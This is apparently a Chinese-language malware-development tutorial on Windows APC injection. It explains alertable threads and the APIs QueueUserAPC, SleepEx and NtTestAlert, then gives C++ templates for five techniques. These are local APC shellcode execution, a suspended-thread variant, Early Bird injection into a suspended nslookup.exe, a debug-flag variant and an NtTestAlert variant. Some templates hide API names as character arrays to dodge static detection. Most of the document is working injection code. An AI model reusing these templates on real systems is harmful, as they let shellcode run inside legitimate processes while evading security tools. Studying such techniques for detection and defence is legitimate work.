

下面我们来看看APC注入

# 什么是可警告状态

线程通过调用某些API如WaitForSingleObject、WaitForMultipleObjects、SleepEx进入等待状态时，被设置为可警告状态



也就是上面说的`Alertable`为1

# 什么是APC注入

要调用APC函数必须通过`QueueUserAPC`传入APC函数的地址

创建一个线程并设置为可警告状态

写入shellcode到内存

将线程句柄和地址传给QueueUserAPC

# 相关API

## SleepEx

两个参数 一个延时 一个是否为可唤醒



## QueueUserAPC

将`用户模式APC`对象添加到指定线程的APC队列

接收三个参数

1. 回调函数
2. 线程句柄
3. 回调函数的参数

demo如下

```
#include <Windows.h>
#include <iostream>

void CALLBACK test(ULONG_PTR Parameter) {
    MessageBox(0, 0, 0, 0);
}

int main(){
    QueueUserAPC(test, GetCurrentThread(), 0);
    SleepEx(1000, TRUE);
}

```



## NtTestAlert

清空APC队列 并运行其中的APC函数



# 基于QueueUserAPC

```
int main(){

    DWORD dwOldProtection = NULL;
    LPVOID lpMem = NULL;


    lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);
    QueueUserAPC((PAPCFUNC)lpMem, GetCurrentThread(), 0);

    SleepEx(INFINITE, 1);
}

```


# 基于挂起的线程

注意必须创建的时候就是挂起的 挂起现有线程将不起作用

```
DWORD dwOldProtection = NULL;
    LPVOID lpMem = NULL;

    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)&test, NULL, CREATE_SUSPENDED, NULL);
    lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);
    QueueUserAPC((PAPCFUNC)lpMem, hThread, 0);

    ResumeThread(hThread);
    WaitForSingleObject(hThread, -1);

```



# Early Bird APC Injection

上述代码都是基于本地的注入 如果注入别的进程 就不能保证目标线程能否进入可警告状态了

Early Bird APC Injection解决了这个问题

通过`CreateProcess`创建进程 指定`dwCreationFlags`为`CREATE_SUSPENDED`使之挂起

其余和之前一样 分配内存写shellcode 插入APC队列 恢复线程触发

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    LPVOID lpMem;
    ULONG dwBytesWritten;
    DWORD dwOldProtection;

    char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    lpMem = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(pi.hProcess, lpMem, shellcode, sizeof(shellcode),&dwBytesWritten);
    VirtualProtectEx(pi.hProcess,lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    QueueUserAPC((PAPCFUNC)lpMem, pi.hThread, 0);

    ResumeThread(pi.hThread);
    WaitForSingleObject(pi.hThread, -1);

```


# 基于DEBUG的Early Bird APC Injection

创建进程时候指定`dwCreationFlags`为`DEBUG_PROCESS` 之后通过`DebugActiveProcessStop`停止调试触发

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    LPVOID lpMem;
    ULONG dwBytesWritten;
    DWORD dwOldProtection;

    char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, DEBUG_PROCESS, NULL, NULL, &si, &pi);
    lpMem = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(pi.hProcess, lpMem, shellcode, sizeof(shellcode), &dwBytesWritten);
    VirtualProtectEx(pi.hProcess, lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    QueueUserAPC((PAPCFUNC)lpMem, pi.hThread, 0);

    DebugActiveProcessStop(pi.dwProcessId);

```

# 基于NtTestAlert

```
typedef NTSTATUS (NTAPI* pNtTestAlert)(
); 


void ntAlertApc() {
    char str1[] = { 'N','t','T','e','s','t','A','l','e','r','t','\0' };
    pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

    DWORD dwOldProtection = NULL;
    LPVOID lpMem = NULL;

    lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);
    QueueUserAPC((PAPCFUNC)lpMem, GetCurrentThread(), 0);


    NtTestAlert();

}

```

# 参考

<https://learn.microsoft.com/zh-cn/windows/win32/sync/asynchronous-procedure-calls>

<https://maldevacademy.com/modules/39>

<https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert>
